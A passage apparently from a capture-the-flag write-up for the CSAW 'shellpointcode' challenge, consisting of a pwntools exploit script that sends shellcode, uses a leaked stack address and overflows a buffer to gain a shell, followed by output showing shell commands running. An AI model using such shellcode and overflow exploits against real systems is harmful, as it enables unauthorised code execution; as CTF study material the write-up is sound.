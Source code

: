 ```
# Import pwntools
from pwn import *

# Establish the target process
#target = process('./shellpointcode')
target = remote('pwn.chal.csaw.io', 9005)
#gdb.attach(target)


# Establish the two 15 byte shellcode blocks
s0 = "\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\xe9\x11\x00\x00\x00"
s1 = "\x90\x31\xf6\xf7\xe6\x04\x3b\x48\xf7\xdf\x57\x54\x5f\x0f\x05"


# Send the second block first, since it will be stored in memory where it will be executed second
print target.recvline('node 1:\n')
target.sendline(s1)

# Send the first block of shell code
print target.recvline('node 2:\n')
target.sendline(s0)

# Grab and filter out the infoleak
print target.recvuntil('node.next:')
leak = target.recvline()
leak = leak.replace('\x0a', '')
print 'leak: ' + leak
leak = int(leak, 16)
log.info("Leak is: " + hex(leak))

# Send the buffer overflow to overwrite the return address to our shellcode, and get code exec
target.sendline('0'*11 + p64(leak + 0x8))

# Drop to an interactive shell
target.interactive('node.next: ')
```
and when we run it:

```
$    python exploit.py
[+] Starting local process './shellpointcode': pid 24064
Linked lists are great!

They let you chain pieces of data together.


(15 bytes) Text for node 1:  
(15 bytes) Text for node 2:
node1:
node.next:
leak:  0x7ffdfd5fcca0
[*] Leak is: 0x7ffdfd5fcca0
[*] Switching to interactive mode
node.buffer: \x901���;H��WT_\x0f\x05
What are your initials?
Thanks 00000000000\xa8�_��
node.next:                         w
 01:26:01 up  7:47,  1 user,  load average: 0.95, 0.85, 0.77
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               17:41   ?xdm?  38:30   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
node.next: ls
core        readme.md       shellcode.o    shellpointcode
exploit.py  shellcode.asm  sheller
```